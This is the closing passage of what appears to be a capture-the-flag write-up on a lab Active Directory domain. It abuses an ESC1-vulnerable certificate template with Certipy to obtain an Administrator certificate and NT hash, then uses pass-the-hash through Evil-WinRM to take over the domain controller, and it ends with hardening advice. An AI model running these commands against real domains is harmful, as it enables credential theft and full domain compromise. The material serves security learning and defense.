ESC1 is a template misconfiguration where the requester can specify an arbitrary identity in the Subject Alternative Name and the template includes a client authentication EKU. A user with enrollment rights can request a certificate naming any UPN, including a domain admin, and the CA issues it without manager approval. We then authenticate as that user via PKINIT.

We read the Administrator's SID (security identifier) from the Object ID on its BloodHound node. `-sid` puts the target SID in the Subject Alternative Name so a current DC maps the certificate to the right account.

```
certipy-ad req -u 'svc-pki' -p 'Pki@Orion2026!' -dc-ip '10.0.0.5' -target 'dc01.orion.local' -ca 'orion-DC01-CA' -template 'OrionAuth' -upn 'administrator@orion.local' -sid 'S-1-5-21-285037524-3800758587-3641439792-500'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 45
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@orion.local'
[*] Certificate object SID is 'S-1-5-21-285037524-3800758587-3641439792-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```



*Certipy requesting a certificate for administrator@orion.local through the OrionAuth template*

The CA issues the certificate, and we authenticate with it.

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.0.0.5'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@orion.local'
[*]     SAN URL SID: 'S-1-5-21-285037524-3800758587-3641439792-500'
[*]     Security Extension SID: 'S-1-5-21-285037524-3800758587-3641439792-500'
[*] Using principal: 'administrator@orion.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@orion.local': aad3b435b51404eeaad3b435b51404ee:54c9fa5ad8849c9414602fe021314d49
```



*Certipy authenticating as administrator@orion.local and recovering the Administrator NT hash*

Certipy returns the Administrator's NT hash the same way it returned `m.white`'s, and we pass it to Evil-WinRM on the domain controller.

```
evil-winrm -i 10.0.0.5 -u 'Administrator' -H '54c9fa5ad8849c9414602fe021314d49'
```



*The Evil-WinRM session on DC01 as Administrator with root.txt listed on the desktop*

We have a shell on the domain controller as the domain's built-in Administrator, so we now control the domain. `root.txt` is on the Administrator's desktop.

## Final Thoughts

My ntlm_theft files on the `Uploads` share never produced a hash, so I searched and found NetExec's slinky module. Later, the Targeted Kerberoast against `m.white` was too slow to crack, so I switched to Shadow Credentials.

Guest and anonymous SMB access should be off everywhere, not just on domain controllers, and a share one user can write to and another browses gives up their hashes. Service accounts with SPNs belong on gMSA or a PAM-managed password, so a roasted ticket produces nothing crackable. `ForceChangePassword` and `GenericWrite` each gave up an account, and object-level rights like these need auditing on a schedule rather than at build time. A password typed on a command line or saved in a script belongs in a credential prompt or a vault. A template with Enrollee Supplies Subject enabled turns one account's enrollment rights into a certificate for any account in the domain.

— 0xB1rd
